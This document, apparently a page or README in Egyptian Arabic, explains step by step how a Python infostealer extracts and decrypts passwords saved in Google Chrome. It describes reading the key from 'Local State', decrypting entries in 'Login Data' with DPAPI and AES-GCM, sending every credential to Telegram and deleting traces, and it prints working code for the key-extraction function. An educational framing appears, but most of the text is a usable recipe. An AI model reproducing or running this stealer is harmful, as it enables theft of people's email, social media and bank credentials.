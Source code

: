 - **إيه اللي بيحصل؟**:
  ### الكود بيسرق الباسوردات إزاي؟
الكود بيستهدف الباسوردات المحفوظة في جوجل كروم، يعني لو عندك باسوردات زي إيميلك، فيسبوك، أو حتى حساب البنك محفوظة في كروم (لما بيطلع مربع "حفظ كلمة المرور؟" وإنت بتقول آه)، الكود ده بيروح يجيبها. الباسوردات دي مش مكتوبة كده على طول في الكمبيوتر، لأن كروم بيشفّرها (يعني بيحوّلها لكلام مش مفهوم) عشان يحميها. الكود بيعرف يفك التشفير ده باستخدام 3 دوال رئيسية
    1. **`get_encryption_key()`**:
       - بيفتح ملف إسمه `Local State` في مجلد كروم (`C:\Users\Ahmed\AppData\Local\Google\Chrome\User Data\Local State`).
       - الملف ده فيه مفتاح مشفر بيستخدمه كروم عشان يحمي الباسوردات.
       - بياخد المفتاح ده، يفك تشفيره باستخدام `win32crypt.CryptUnprotectData` (دي مكتبة بتستخدم حاجات ويندوز عشان تفك التشفير).
       - لو نجح، بيرجّع المفتاح. لو فشل (زي لو كروم مش موجود)، بيبعت رسالة خطأ لتيليجرام.
    2. **`decrypt_password(password, key)`**:
       - بياخد الباسورد المشفر من كروم ويحاول يفكّه بالمفتاح اللي جابه.
       - لو الباسورد قديم (مش بيبدأ بـ `v10` أو `v11`)، بيستخدم طريقة تشفير قديمة (`win32crypt`).
       - لو باسورد جديد، بيستخدم تشفير AES-GCM (بياخد جزء من الباسورد إسمه IV وباقي البيانات، ويفكّهم).
       - لو نجح، بيرجّع الباسورد كتكست عادي (زي "MyPass123"). لو فشل، بيرجّع رسالة خطأ.
    3. **`extract_browser_credentials()`**:
       - بيفتح ملف إسمه `Login Data` في مجلد كروم (`C:\Users\Ahmed\AppData\Local\Google\Chrome\User Data\Default\Login Data`).
       - الملف ده زي قاعدة بيانات فيها كل الباسوردات المحفوظة.
       - بيعمل نسخة مؤقتة من الملف ده في مجلد الـ Temp عشان ما يغيّرش الأصلي.
       - بيفتح النسخة دي زي قاعدة بيانات باستخدام `sqlite3`.
       - بيطلّع كل السجلات اللي فيها مواقع (زي `https://facebook.com`)، إيميلات أو أسماء مستخدمين، والباسوردات المشفرة.
       - بيستخدم المفتاح من `get_encryption_key` عشان يفك تشفير كل باسورد.
       - بيحط كل حاجة في لستة، زي:
         ```
         🌐 الموقع: https://facebook.com
         👤 الإيميل/اسم المستخدم: ahmed@example.com
         🔒 كلمة المرور: MyPass123
         ```
       - لو ما لقاش بيانات، بيبعت رسالة لتيليجرام يقول إنه ما لقاش حاجة.
       - بيبعت اللستة دي كلها لتيليجرام في رسالة واحدة.
       - أخيرًا، بيمسح النسخة المؤقتة عشان ما يسيبش أثر.
- **ليه خطير؟**:
  - لو بتحفظ باسورداتك في كروم (زي معظم الناس)، الكود ده هيسرق كل حاجة، من إيميلك للبنك.
  - اللي بيستلم الباسوردات دي يقدر يدخل على حساباتك ويسرق فلوسك أو بياناتك.
طيب، هشرحلك بالعامية المصرية وبطريقة واضحة جدًا إزاي الكود ده بيفك تشفير كلمات المرور (الباسوردات) المحفوظة في جوجل كروم، خطوة خطوة، زي ما أكون بفكّ القفل قدامك. الهدف هنا تعليمي بحت، عشان تفهم إزاي الحاجات الخبيثة زي دي بتشتغل وتقدر تحمي نفسك، مش عشان تستخدمها لأن ده غير قانوني وخطير. يلا نبدأ!

---

### 1. **دالة `get_encryption_key()`: جيب المفتاح بتاع التشفير**
```python
def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome", "User Data", "Local State")
    if not os.path.exists(local_state_path):
        send_to_telegram_split("⚠️ ملف 'Local State' غير موجود. تأكد من تثبيت Chrome.")
        return None
    try:
        with open(local_state_path, "r", encoding="utf-8") as f:
            local_state = json.load(f)
        key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        key = key[5:]  # Remove 'DPAPI'
        decrypted_key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
        return decrypted_key
    except Exception as e:
        send_to_telegram_split(f"⚠️ فشل في فك تشفير مفتاح التشفير من 'Local State': {str(e)}")
```